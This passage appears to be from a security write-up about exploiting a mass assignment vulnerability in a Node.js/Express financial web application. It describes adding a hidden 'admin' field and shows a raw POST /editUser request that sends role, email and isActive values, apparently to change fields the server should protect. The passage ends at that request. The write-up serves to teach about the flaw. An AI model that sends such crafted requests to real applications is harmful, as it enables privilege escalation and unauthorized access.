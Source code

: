 In this example, the attacker has added a hidden input field named "admin" with the value set to "true." When the form is submitted, the framework blindly assigns the value "true" to the "admin" field in the user model, even though it was not intended to be modifiable by the user. This can grant the attacker administrative privileges or other unauthorized access.

## Target Background

The web application is developed using the Node.js framework. It incorporates dynamic roles, allowing the creation and assignment of new roles to users based on business requirements. The application is mostly used for financial purposes.

## Technology Stack

The technology stack used in the Target application includes the following components:

- Bootstrap
- Express
- Node.js

## CRUD Operation

CRUD refers to Create, Read, Update, and Delete operations, which are fundamental to managing data in both database systems and web applications. Each letter in the acronym represents a specific operation.

### Exploiting Mass Assignment Vulnerability

The Target application provides a feature that allows users to update their profiles with various details. However, changing the email address is restricted since users sign up using their email addresses.

### Request

```http
POST /editUser HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Content-Length: 534
Origin: https://abc.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": "naveenj@thevillagehacker.com",
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```
